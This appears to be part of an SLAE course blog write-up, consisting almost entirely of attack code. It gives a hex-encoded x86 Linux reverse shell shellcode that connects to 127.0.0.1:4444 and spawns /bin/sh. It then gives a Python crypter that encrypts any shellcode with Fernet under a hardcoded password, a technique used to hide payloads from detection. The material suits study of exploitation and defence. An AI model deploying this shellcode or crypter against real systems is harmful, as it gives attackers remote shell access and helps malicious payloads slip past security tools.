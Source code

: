 ```sh
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```
------------------------------------------------------------------------------------------------
### Encrypter

<p style="text-align: justify;">Below is the Encrypter code in Python, which I tried to explain using comments in individual sections.</p>

```python
#!/usr/bin/python3
from cryptography.fernet import Fernet
import sys
#import binascii
import base64
import os
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC

# configuring variables for key generation
passwd = "SLAE"
password = passwd.encode()
salt = b'%s' % os.urandom(16)

kdf = PBKDF2HMAC(
    algorithm=hashes.SHA256(),
    length=32,
    salt=salt,
    iterations=100000,
    backend=default_backend()
)
key = base64.urlsafe_b64encode(kdf.derive(password))

# saving generated, unique key to the key.key file
file = open('key.key','wb')
file.write(key)
file.close()

# help message in case of wrong arguments count
if len(sys.argv) != 2:
    print("\nUsage: python3 crypter.py {shellcode}\n")
    print("Example:\npython3 crypter.py \"\\x31\\xc0\\xeb\\x20\\x5b\\x31\\xc0\\xeb\\x20\\x5b\\\"\n")
    quit()

print("\n/--------------------------------/")
print(" ***  Fernet AES Encrypter.  ***")
print("/--------------------------------/")

print("\n\n*** Generated key: *** \n",30*'-',"\n", key.decode("utf-8"))

# Taking shellcode from argv and encrypting using generated key
plainAscii = bytes(sys.argv[1],'ascii')
cipher = Fernet(key)
ciphAscii = cipher.encrypt(plainAscii)

print("\n*** Original Shellcode: ***\n",30*"-","\n",sys.argv[1])           
print("\n*** Data after encryption: ***\n",30*'-',"\n", ciphAscii.decode("utf-8"))

```